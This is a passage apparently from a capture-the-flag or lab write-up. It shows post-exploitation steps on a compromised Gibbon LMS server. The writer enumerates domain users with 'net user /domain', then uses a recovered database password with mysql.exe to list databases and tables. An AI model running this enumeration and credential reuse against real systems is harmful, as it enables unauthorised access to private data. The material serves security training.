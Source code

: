 ```powershell
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

C:\xampp\htdocs\Gibbon-LMS>net user /domain
net user /domain

User accounts for \\FRIZZDC

-------------------------------------------------------------------------------
a.perlstein              Administrator            c.ramon
c.sandiego               d.hudson                 f.frizzle
g.frizzle                Guest                    h.arm
J.perlstein              k.franklin               krbtgt
l.awesome                m.ramon                  M.SchoolBus
p.terese                 r.tennelli               t.wright
v.frizzle                w.li                     w.Webservice
The command completed successfully.
```

We can find `mysql.exe` on `C:\xampp\mysql\bin`, let's use the credentials we found to check the relevant data on here:

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```

![](images/Pasted%20image%2020250616172526.png)

We got `gibbon` and test, let's search tables on gibbon:

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon
Tables_in_gibbon
gibbonaction
gibbonactivity
gibbonactivityattendance
gibbonactivityslot
gibbonactivitystaff
gibbonactivitystudent
gibbonactivitytype
gibbonadmissionsaccount
gibbonadmissionsapplication
gibbonalarm
gibbonalarmconfirm
gibbonalertlevel
gibbonapplicationform
gibbonapplicationformfile
gibbonapplicationformlink
gibbonapplicationformrelationship
gibbonattendancecode
gibbonattendancelogcourseclass
gibbonattendancelogformgroup
gibbonattendancelogperson
gibbonbehaviour
gibbonbehaviourletter
gibboncountry
gibboncourse
gibboncourseclass
gibboncourseclassmap
gibboncourseclassperson
gibboncrowdassessdiscuss
gibboncustomfield
```